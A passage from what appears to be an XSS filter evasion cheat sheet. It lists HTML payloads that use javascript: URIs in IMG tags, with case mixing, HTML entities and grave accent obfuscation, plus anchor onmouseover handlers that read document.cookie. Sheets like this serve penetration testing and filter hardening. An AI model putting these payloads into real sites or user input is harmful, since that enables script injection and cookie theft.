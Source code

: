 ```html
<IMG SRC="javascript:alert('XSS');">
```

## No Quotes and no Semicolon

```html
<IMG SRC=javascript:alert('XSS')>
```

## Case Insensitive XSS Attack Vector

```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

## HTML Entities

The semicolons are required for this to work:

```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```

## Grave Accent Obfuscation

If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:

```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```

## Malformed A Tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross \~ Verified on Chrome

```html
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

or Chrome loves to replace missing quotes for you... if you ever get stuck just leave them off and Chrome will put them in the right place and fix your missing quotes on a URL or script.

```html
`\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
```

## Malformed IMG Tags

Originally found by Begeek (but cleaned up and shortened to work in all browsers), this XSS vector uses the relaxed rendering engine to create our XSS vector within an IMG tag that should be encapsulated within quotes. I assume this was originally meant to correct sloppy coding. This would make it significantly more difficult to correctly parse apart an HTML tags:
